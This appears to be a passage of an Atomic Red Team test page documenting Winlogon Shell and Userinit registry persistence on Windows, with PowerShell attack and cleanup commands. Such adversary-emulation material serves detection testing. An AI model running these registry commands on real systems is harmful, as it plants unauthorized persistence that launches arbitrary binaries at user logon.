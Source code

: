 **auto_generated_guid:** bf9f9d65-ee4d-4c3e-a843-777d04f19c38

#### Inputs:

| Name              | Description               | Type | Default Value                           |
| ----------------- | ------------------------- | ---- | --------------------------------------- |
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `powershell`!

```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Shell" -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - Winlogon Userinit Key Persistence - PowerShell

PowerShell code to set Winlogon userinit key to execute a binary at logon along with userinit.exe.

Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.

**Supported Platforms:** Windows

**auto_generated_guid:** fb32c935-ee2e-454b-8fa3-1c46b42e8dfb

#### Inputs:

| Name              | Description               | Type | Default Value                           |
| ----------------- | ------------------------- | ---- | --------------------------------------- |
| binary_to_execute | Path of binary to execute | path | C:&#92;Windows&#92;System32&#92;cmd.exe |

#### Attack Commands: Run with `powershell`!

```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, #{binary_to_execute}" -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" -Name "Userinit" -Force -ErrorAction Ignore
```
